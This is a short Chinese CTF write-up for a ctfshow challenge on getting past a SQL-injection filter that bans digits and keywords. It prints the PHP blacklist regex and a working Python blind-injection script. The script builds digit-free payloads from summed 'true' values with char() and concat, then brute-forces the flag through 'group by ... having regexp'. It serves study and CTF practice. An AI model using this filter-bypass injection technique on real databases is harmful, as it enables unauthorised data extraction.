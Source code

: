 # 知识点
### sql无数字如何绕过
![20201127190309995.png](./images/20231017_2351393090.png)
# 思路
```python
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
  }

```
通过上图的思路，我们可以通过true相加来构造我们想要的数字，再用char转换为字符，然后用concat将字符连接起来，从而无需数字或者字符就可以进行正则匹配
```python
import requests
str = 'abcdef0123456789-}'
flag = 'ctfshow{'
url = 'http://3e8b75fc-cfeb-4415-a4de-249da68c608f.challenge.ctf.show/select-waf.php'
def str2true(strs):
    str = "concat("
    for s in strs:
        s = "char("+("true+"*ord(s))[:-1]+"),"
        str += s
    return str[:-1]+")"

# print(str2true("00"))
for l in range(38):
    for i in str:
        # print(str2hex(flag+i))
        data = {
            'tableName': f'ctfshow_user group by pass having pass regexp({str2true(flag+i)})'
        }
        rep = requests.post(url=url, data=data).text
        if (rep.find("$user_count = 1") != -1):
            flag += i
            print(flag)
            break
```
![image.png](./images/20231017_2351411055.png)
